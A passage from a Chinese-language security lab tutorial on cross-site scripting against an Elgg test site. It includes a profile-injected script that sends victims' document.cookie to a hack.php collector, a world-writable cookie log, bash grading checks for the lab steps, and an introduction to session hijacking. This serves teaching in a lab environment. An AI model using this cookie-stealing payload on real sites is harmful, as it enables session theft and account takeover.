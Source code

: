 下面我们将来创造一个这样的环境。

step1：在网站目录下面创建一个hack.php的文件:

```
sudo vim /var/www/XSS/elgg/hack.php
```
hack.php文件的内容如下图所示。

![3.3-1](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430792826756?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

step2：创建一个cookie.txt,用它来cookie。并且这个文件要有写入权限步骤如下图所示.

![3.3-2](https://dn-simplecloud.shiyanlou.com/uid/8797/1524736793615.png-wm)

step3:在编辑profiles页面插入以下js代码，保存后访问用户资料页面。

```
	<script>document.write('<img src=http://www.xsslabelgg.com/hack.php?c=' + escape(document.cookie) + '>');</script>
```

![3.3-3](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430793000033?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

step4:查看cookie.txt文件，下图红色圆圈即为接收到的cookie.

![3.3-4](https://dn-simplecloud.shiyanlou.com/uid/8797/1524736867929.png-wm)

```checker
- name: check hack.php
  script: |
    #!/bin/bash
    file_name="/var/www/XSS/elgg/hack.php"
    ls $file_name
    grep cookie $file_name
  error: hack.php不存在或者文件内容不对
- name: check cookie.txt
  script: |
    #!/bin/bash
    ls /var/www/XSS/elgg/cookie.txt
  error: 指定目录下不存在 cookie.txt
- name: check cookie.txt priv
  script: |
    #!/bin/bash
    stat -c %a /var/www/XSS/elgg/cookie.txt|grep 777
  error: cookie.txt 权限配置不对
```

### lab4 使用获取的Cookie进行会话劫持 ##

当获取了受害者的Cookie以后，我们可以干嘛呢？可以利用Cookie登录用户，也就是会话劫持。

会话劫持：窃取受害者的cookie后,攻击者可以仿造受害者向服务器发送请求,包括代表受害者增删好友，删去公司职位信息等等。从本质上讲, 就是劫持受害者的会话。

这个实验我们将用到firefox的菜单栏中tools中的LiveHTTPHeaders工具。
